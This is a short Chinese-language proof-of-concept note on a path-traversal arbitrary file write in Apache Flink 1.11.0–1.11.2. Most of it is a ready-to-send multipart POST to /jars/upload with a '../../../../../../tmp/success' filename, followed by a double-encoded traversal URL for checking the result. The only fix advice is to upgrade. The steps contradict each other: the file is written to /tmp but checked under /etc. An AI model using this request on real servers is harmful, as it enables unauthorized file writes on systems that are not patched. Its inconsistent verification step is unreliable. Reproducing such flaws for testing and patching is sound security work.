

### 简介 ###
Apache Flink是一个开源流处理框架，具有强大的流处理和批处理功能

### 影响版本 ###

1.11.0

1.11.1

1.11.2

### 漏洞利用 ###

写入EXP：

    POST /jars/upload HTTP/1.1
    Host: 127.0.0.1:8081
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
    Content-Length: 185
    
    ------WebKitFormBoundaryoZ8meKnrrso89R6Y
    Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"
    
    zzzzzzz
    ------WebKitFormBoundaryoZ8meKnrrso89R6Y--

验证写入:

    http://127.0.0.1/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fsuccess
    
成功写入：

### 修复建议 ###

所有用户升级最新版